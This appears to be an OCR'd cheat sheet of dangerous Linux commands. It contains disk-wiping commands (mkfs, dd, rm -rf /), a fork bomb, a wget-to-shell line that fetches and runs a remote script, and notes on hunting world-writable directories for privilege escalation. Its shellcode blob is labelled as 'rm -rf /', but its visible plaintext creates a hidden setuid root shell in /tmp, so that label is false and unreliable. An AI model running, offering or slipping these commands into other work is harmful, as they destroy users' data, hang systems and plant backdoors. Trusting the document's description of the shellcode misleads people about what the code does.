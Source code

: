 Oh, and you’re probably a jerk if you use any of the stuff below.
| Command | Description |
+---------+-------------+
| mkfs.ext3 /dev/sda | Reformat the device mentioned, making recovery of files hard. |
| dd if=/dev/zero of=/dev/sda bs=1M | Overwrite disk /dev/sda with zeros |
| rm -rf / | This will recursively try to delete all files. |

```
char esp[] __attribute__ ((section(”.text”))) /* e.s.p release */ = 
“\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;
```
Hex version of rm -rf /
How is this supposed to work?

## Execute a remote script

This command forces the download of a file and immediately its execution, can be exploited easily using or reverse shit

> wget http://server/file.sh -O- | sh

## Fork Bomb

> :(){:|:&};:

The [in]famous "fork bomb". This command will cause your system to run a large number of processes, until it "hangs". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.

## Stolen from: http://incolumitas.com/wp-content/uploads/2012/12/blackhats_view.pdf

*  World writable directories
** Find word writable folders outside your home directory. It would be a tremendous success if we could write, say to /etc. So we could add configuration files and therefore pretty sure execute code as root, since many daemons read a specific number of primary and secondary configuration files, whereas the secondary ones are often not created yet. If the superusers home (/root) would be writable, we could create shell startup files that doesn't exist yet: .profile,
.bash_profile, .bashrc...

> find / \( ­wholename '/home/homedir/*' ­prune \) \
> ­o \( ­type d ­perm ­0002 \) \
> ­exec ls ­ld '{}' ';' 2>/dev/null
